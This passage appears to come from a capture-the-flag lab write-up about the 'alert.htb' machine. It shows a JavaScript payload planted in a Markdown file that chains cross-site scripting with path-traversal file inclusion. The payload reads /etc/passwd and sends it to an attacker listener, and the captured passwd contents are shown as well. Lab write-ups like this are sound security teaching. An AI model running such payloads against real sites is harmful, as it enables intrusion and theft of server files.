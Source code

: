 ```c
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
```

## Local File Inclusion (LFI)

With that being said we forged another `.md` file with an `payload` to read `/etc/passwd` and send the content back to us.

```c
<script>
fetch('http://alert.htb/messages.php?file=../../../../../etc/passwd', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/?data=' + encodeURIComponent(data));
    });
</script>
```

As before we repeated all the steps and got a callback on our listener.

```c
10.10.14.86 - - [23/Nov/2024 22:18:01] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:18:01] "GET /?data=%0A HTTP/1.1" 501 -
10.10.14.86 - - [23/Nov/2024 22:18:02] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:18:02] "GET /?data=%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:18:07] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 22:18:07] "GET /?data=%3Cpre%3Eroot%3Ax%3A0%3A0%3Aroot%3A%2Froot%3A%2Fbin%2Fbash%0Adaemon%3Ax%3A1%3A1%3Adaemon%3A%2Fusr%2Fsbin%3A%2Fusr%2Fsbin%2Fnologin%0Abin%3Ax%3A2%3A2%3Abin%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Asys%3Ax%3A3%3A3%3Asys%3A%2Fdev%3A%2Fusr%2Fsbin%2Fnologin%0Async%3Ax%3A4%3A65534%3Async%3A%2Fbin%3A%2Fbin%2Fsync%0Agames%3Ax%3A5%3A60%3Agames%3A%2Fusr%2Fgames%3A%2Fusr%2Fsbin%2Fnologin%0Aman%3Ax%3A6%3A12%3Aman%3A%2Fvar%2Fcache%2Fman%3A%2Fusr%2Fsbin%2Fnologin%0Alp%3Ax%3A7%3A7%3Alp%3A%2Fvar%2Fspool%2Flpd%3A%2Fusr%2Fsbin%2Fnologin%0Amail%3Ax%3A8%3A8%3Amail%3A%2Fvar%2Fmail%3A%2Fusr%2Fsbin%2Fnologin%0Anews%3Ax%3A9%3A9%3Anews%3A%2Fvar%2Fspool%2Fnews%3A%2Fusr%2Fsbin%2Fnologin%0Auucp%3Ax%3A10%3A10%3Auucp%3A%2Fvar%2Fspool%2Fuucp%3A%2Fusr%2Fsbin%2Fnologin%0Aproxy%3Ax%3A13%3A13%3Aproxy%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Awww-data%3Ax%3A33%3A33%3Awww-data%3A%2Fvar%2Fwww%3A%2Fusr%2Fsbin%2Fnologin%0Abackup%3Ax%3A34%3A34%3Abackup%3A%2Fvar%2Fbackups%3A%2Fusr%2Fsbin%2Fnologin%0Alist%3Ax%3A38%3A38%3AMailing%20List%20Manager%3A%2Fvar%2Flist%3A%2Fusr%2Fsbin%2Fnologin%0Airc%3Ax%3A39%3A39%3Aircd%3A%2Fvar%2Frun%2Fircd%3A%2Fusr%2Fsbin%2Fnologin%0Agnats%3Ax%3A41%3A41%3AGnats%20Bug-Reporting%20System%20(admin)%3A%2Fvar%2Flib%2Fgnats%3A%2Fusr%2Fsbin%2Fnologin%0Anobody%3Ax%3A65534%3A65534%3Anobody%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-network%3Ax%3A100%3A102%3Asystemd%20Network%20Management%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-resolve%3Ax%3A101%3A103%3Asystemd%20Resolver%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-timesync%3Ax%3A102%3A104%3Asystemd%20Time%20Synchronization%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Amessagebus%3Ax%3A103%3A106%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asyslog%3Ax%3A104%3A110%3A%3A%2Fhome%2Fsyslog%3A%2Fusr%2Fsbin%2Fnologin%0A_apt%3Ax%3A105%3A65534%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Atss%3Ax%3A106%3A111%3ATPM%20software%20stack%2C%2C%2C%3A%2Fvar%2Flib%2Ftpm%3A%2Fbin%2Ffalse%0Auuidd%3Ax%3A107%3A112%3A%3A%2Frun%2Fuuidd%3A%2Fusr%2Fsbin%2Fnologin%0Atcpdump%3Ax%3A108%3A113%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Alandscape%3Ax%3A109%3A115%3A%3A%2Fvar%2Flib%2Flandscape%3A%2Fusr%2Fsbin%2Fnologin%0Apollinate%3Ax%3A110%3A1%3A%3A%2Fvar%2Fcache%2Fpollinate%3A%2Fbin%2Ffalse%0Afwupd-refresh%3Ax%3A111%3A116%3Afwupd-refresh%20user%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Ausbmux%3Ax%3A112%3A46%3Ausbmux%20daemon%2C%2C%2C%3A%2Fvar%2Flib%2Fusbmux%3A%2Fusr%2Fsbin%2Fnologin%0Asshd%3Ax%3A113%3A65534%3A%3A%2Frun%2Fsshd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-coredump%3Ax%3A999%3A999%3Asystemd%20Core%20Dumper%3A%2F%3A%2Fusr%2Fsbin%2Fnologin%0Aalbert%3Ax%3A1000%3A1000%3Aalbert%3A%2Fhome%2Falbert%3A%2Fbin%2Fbash%0Alxd%3Ax%3A998%3A100%3A%3A%2Fvar%2Fsnap%2Flxd%2Fcommon%2Flxd%3A%2Fbin%2Ffalse%0Adavid%3Ax%3A1001%3A1002%3A%2C%2C%2C%3A%2Fhome%2Fdavid%3A%2Fbin%2Fbash%0A%3C%2Fpre%3E%0A HTTP/1.1" 501 -
```

